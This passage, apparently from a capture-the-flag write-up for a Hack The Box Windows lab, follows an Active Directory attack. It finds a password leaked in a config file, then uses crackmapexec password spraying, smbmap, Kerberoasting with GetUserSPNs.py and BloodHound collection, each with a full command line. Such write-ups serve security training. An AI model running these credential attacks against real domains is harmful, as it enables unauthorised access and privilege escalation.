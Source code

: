 Recursively listing contents inside download share, I discovered azure.xml which looked very interesting
  
`find . -ls`
![](https://i.imgur.com/nbe9sZE.png)

This seemed to be some kind of configuration file from Active Directory Powershell and it was leaking possible password: **4n0therD4y@n0th3r$**

![](https://i.imgur.com/7p4pncz.png)

I was pretty sure this password would pair with user **mhope** since it was found in his/hers directory but I still tried on password spraying.
### Password Spraying
Using crackmapexec for password spraying, I discovered account **mhope** pairs with the found password as expected:

`crackmapexec smb 10.10.10.172 -u sAMAccountName.txt -p '4n0therD4y@n0th3r$' --no-brute --continue-on-success`
![](https://i.imgur.com/Ova8bPh.png)

Luckily, this user had access to winrm:

![](https://i.imgur.com/66MQPfI.png)
## Privesc mhope to administrator
### SMB as mhope
I checked if account mhope has more access to different shares but it seemed it has the same access as account SABatchJobs -> **FAILED**

`smbmap -H 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`
![](https://i.imgur.com/UXNFWcm.png)
### Kerberoasting
Now that I have valid credentials, I tried on Kerberoasting -> **FAILED**

`sudo GetUserSPNs.py megabank.local/mhope:'4n0therD4y@n0th3r$' -dc-ip 10.10.10.172 -request -save -outputfile getuserspns-mhope.out`
![](https://i.imgur.com/pRknRQe.png)
### Bloodhound
I ran bloodhound-python to collect data from the domain:

`sudo python bloodhound.py -u mhope -p '4n0therD4y@n0th3r$' -c ALL -ns 10.10.10.172 -d megabank.local`
![](https://i.imgur.com/CDrlrYS.png)

Started bloodhound and neo4j:

```bash

sudo neo4j console

bloodhound

```
